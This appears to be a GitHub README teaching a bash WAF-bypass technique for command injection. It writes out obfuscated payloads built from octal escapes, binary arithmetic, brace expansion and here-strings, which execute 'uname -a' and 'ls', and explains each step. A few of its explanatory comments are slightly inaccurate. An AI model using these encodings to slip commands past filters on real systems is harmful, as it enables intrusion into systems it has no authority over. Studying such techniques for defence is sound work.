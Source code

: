 # Using bash to bypass WAF in a Command Injection scenario
Bash Command Injection WAF Bypass

<img src="cmd-injection.png" align="center">

### Manual Conversion:

- [Unicode UTF-8 -> Bytes Radix (octal)](https://onlineunicodetools.com/convert-unicode-to-bytes)
- [Decimal (previous octal output) -> Binary](https://www.rapidtables.com/convert/number/decimal-to-binary.html)

> Unicode -> Octal:
>> Starting with a unicode character/string,
then convert it to its equivalent UTF-8 byte sequence.
Each byte in that sequence is then represented in octal (base 8) format

> Decimal (previous octal output) -> Binary:
>> Taking the decimal value that corresponds to the octal representation of a byte from the previous step
and converting that decimal value to its equivalent binary representation

<br>

<hr>

<br>

> `uname -a`: <br>
```bash
${!##\-}<<<{\$\'\\$(($((1<<1))#10100101))\\$(($((1<<1))#10011100))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10011011))\\$(($((1<<1))#10010001))\',\$\'\\$(($((1<<1))#110111))\\$(($((1<<1))#10001101))\'}
```
> Using a **comma** `,` from **Brace Expansion** so it acts like a **space**. <br>
> The reason why we use **Brace Expansion**: <br>
```console
$ echo {ola,mundo}
ola mundo
```

> In short, this is what's happening: ([Click to see full explanation](#full-explanation))
- `{\$\'command1\',\$\'command2-or-argument2\'}`

<br>

<hr>

<br>

### Video Example:

[![Link](https://img.youtube.com/vi/B4mpV44Z1-8/0.jpg)](https://www.youtube.com/watch?v=B4mpV44Z1-8)

<br>

<hr>

<br>

### Full Explanation:

```bash
### idea: @sirifu4k1

# My final payload:
# ${0##\-}<<<$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
# Let's understand what the hell is happening here.

## 1.1: ${0##\-}
# ${} is a parameter expansion; "$0" == is the first parameter, which is the script itself.
# Since we're "executing" "$0" straight on the shell, the program that is getting executed is bash
# But on my shell, bash had a little "-" dash sign next to the "b" letter of bash, so I removed it
# using parameter expansion (${0##\-} == removes the dash "-" from "-bash", and we're left with "bash")

## 1.2: <<<
# A "Here String" is used for input redirection from text or a variable.
# For example: (counting the words of a given file called about.txt)
$ wc -l <<< about.txt
1 # (output as an example)

## 1.3: $\' ... \'
# First of all, "$'Something\nSomething-else'" causes escape sequences to be interpreted.
# So we can call a UTF-8 octal to be interpreted to text, just like so (154 in octal == l; 163 in octal == s):
$'\154\163'

# Another example:
$'\151\144' # 151 == i; 144 == d (id gets interpreted as a command)

## 1.4: \\$(( $(( 1 << 1 ))#10011010)) \\$(( $(( 1 << 1))#10100011 ))
# $(()) == POSIX arithmetic expansion
# Note: (man bash)
# Words of the form $'string' are treated specially. The word expands to
# string, with backslash-escaped characters replaced as specified by the ANSI C
# standard.

# Note:
# The "\\" (double backslash) characters are necessary in order to force the shell to pass
# a "\$" (single backslash, dollar sign) to the arithmetic expansion.

### 2.4: $(( $((1<<1))#10011010 ))
# 1<<1 == 2
# base#number == performing calculations between different arithmetic bases [base#]number
#                base is a decimal integer between 2 and 36 that specifies the arithmetic base. (default is base 10)

# Enclosing two arithmetic expansion inside of each other, so that 2#10011010 (octal "154" to binary is "10011010") is equal to 154
# 167 150 157 :: 10100111 = w; 10010110 = h; 10011101 = o

### 3.4: $(( $((1<<1))#10100011 ))
# Is exatcly the same concept as I mentioned previously (at 2.4), and we're left with 163 (octal)

# Conclusion:
# This whole mess will give us the result $'\154\163', which is "ls"
# or echo -e "\0154\163" to print it as a string

# Image explanation, by @sirifu4k1
# https://pbs.twimg.com/media/FqJd-irakAEBPh_.jpg


# Bonus without using numbers (will execute "ls"):
# ${0##\-}<<<$\'\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}${##}${##}))\'
                                        ^ 10011010 --> Decimal: 154(l)                               ^ 10100011 --> Decimal: 163(s)

${##} == 1
${#}  == 0

echo -ne "${##}${#}${#}${##}${##}${#}${##}${#} ${##}${#}${##}${#}${#}${#}${##}${##}\n"
```
